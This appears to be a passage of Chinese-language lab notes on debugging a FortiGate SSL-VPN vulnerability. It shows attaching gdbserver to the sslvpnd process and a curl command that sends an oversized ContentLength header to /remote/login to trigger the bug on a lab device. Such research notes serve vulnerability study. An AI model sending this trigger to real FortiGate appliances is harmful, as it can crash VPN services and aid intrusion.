 用ssh连接fortigate，运行 gdbserver attach sslvpnd

```shell
ssh admin@192.168.122.249
execute ping sh
busybox mkdir /usr/bin
busybox --install -s /usr/bin
gdbserver --attach 192.168.122.249:1235 `pidof sslvpnd`
```

![image-20230406111852039](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20230406111852039.png)

发送 payload触发漏洞

```shell
curl --tlsv1.0 --tls-max 1.0 -v -k --ciphers DEFAULT@SECLEVEL=0 -H "ContentLength: 2147483647" --data 1 https://192.168.122.249:10443/remote/login
```

![image-20230406111949683](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20230406111949683.png)



## tips

创建虚拟机报错

![image-20230417175113302](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20230417175113302.png)

可能是guestfish占用了镜像资源，也有可能是镜像没有运行权限